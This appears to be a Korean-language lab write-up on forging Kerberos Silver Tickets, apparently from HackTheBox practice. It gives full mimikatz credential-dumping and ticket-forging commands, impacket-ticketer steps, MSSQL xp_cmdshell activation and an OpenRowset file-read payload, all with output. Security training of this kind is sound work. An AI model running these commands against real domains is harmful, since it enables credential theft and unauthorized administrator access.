 사전 필요 정보

- **SPN 비밀번호 해시**
- **도메인 SID**
- **타겟 SPN**

→ 아무래도 SPN 해시 크랙이 안되면, 이 공격으로 넘어가야 할듯?

해당 공격은
**→ mimikatz (win)**
**→ impacket-ticketer (linux)**
로 할 수 있다.


### mimikatz
```powershell
privilege::debug
sekurlsa::logonpasswords
# Authentication Id : 0 ; 1147751 (00000000:00118367)
#Session           : Service from 0
#User Name         : iis_service
#Domain            : CORP
#Logon Server      : DC1
#Logon Time        : 9/14/2022 4:52:14 AM
#SID               : S-1-5-21-1987370270-658905905-1781884369-1109
#        msv :
#         [00000003] Primary
#         * Username : iis_service
#         * Domain   : CORP
#         *** NTLM     : 4d28cf5252d39971419580a51484ca09**
#         * SHA1     : ad321732afe417ebbd24d5c098f986c07872f312
#         * DPAPI    : 1210259a27882fac52cf7c679ecf4443
#...
# SPN(iis_service)의 해시 탈취
# whoami 명령어로 도메인 SID 획득

kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
# 이후 exit로 나오고 klist 명령오로 티켓 확인 가능
```



### Linux 에서 Exploit
#### NTLM 해시 생성 (password -> NTLM)
```bash
┌──(kali㉿kali)-[~/htb/escape]
└─$ python3                      
Python 3.13.2 (main, Mar 13 2025, 14:29:07) [GCC 14.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import hashlib
>>> **hashlib.new('md4', 'REGGIE1234ronnie'.encode('utf-16le')).digest().hex()**
'1443ec19da4dac4ffc953bca1b57b4cf'
>>> exit()
```

####  도메인의 SID 조회
```bash
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> get-addomain


AllowedDNSSuffixes                 : {}
ChildDomains                       : {}
ComputersContainer                 : CN=Computers,DC=sequel,DC=htb
DeletedObjectsContainer            : CN=Deleted Objects,DC=sequel,DC=htb
DistinguishedName                  : DC=sequel,DC=htb
DNSRoot                            : sequel.htb
DomainControllersContainer         : OU=Domain Controllers,DC=sequel,DC=htb
DomainMode                         : Windows2016Domain
DomainSID                          : S-1-5-21-4078382237-1492182817-2568127209

...

```

#### Silver Ticket 발행 (Ticketer)
```bash
┌──(kali㉿kali)-[~/htb/escape]
└─$ impacket-ticketer -nthash 1443ec19da4dac4ffc953bca1b57b4cf -domain-sid S-1-5-21-4078382237-1492182817-2568127209 -domain sequel.htb -spn l8bl/dc.sequel.htb administrator
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
...
[*] Saving ticket in administrator.ccache
```

#### Kerberos 이용해서 인증
```bash
┌──(kali㉿kali)-[~/htb/escape]
└─$ KRB5CCNAME=administrator.ccache impacket-mssqlclient -k administrator@dc.sequel.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC\SQLMOCK): Line 1: Changed database context to 'master'.
[*] INFO(DC\SQLMOCK): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (sequel\Administrator  dbo@master)> enable_xp_cmdshell;
INFO(DC\SQLMOCK): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
INFO(DC\SQLMOCK): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (sequel\Administrator  dbo@master)> xp_cmdshell whoami
output           
--------------   
sequel\sql_svc   

NULL             
```
( ※ xp_cmdshell은 create process를 통해 실행된다. 이 때, impersonation 권한이 없다면, xp_cmdshell 의 권한이 administrator 로 전환하는데 실패한다. 그러나 process가 생성되지 않고 아래에 있는 file system 을 호출하는 `(select x from OpenRowset(BULK 'C:\\Users\\Administrator\\Desktop\\root.txt', SINGLE_CLOB) R(x))` 와 같은 페이로드는 Administrator 권한으로 실행된다. )

```python
SQL (sequel\\Administrator  dbo@master)> (select x from OpenRowset(BULK 'C:\\Users\\Administrator\\Desktop\\root.txt', SINGLE_CLOB) R(x))
x                                         
---------------------------------------   
b'5502a81cd2722c7bc0b10b024c7495b9\\r\\n'   

```
→ [https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/writefile_bulkinsert.sql](https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/writefile_bulkinsert.sql) 와 같은 구문으로 대용량 파일을 복사할 수 있으므로, WerTrigger 와 같은 방법으로 PE 할 수 있다.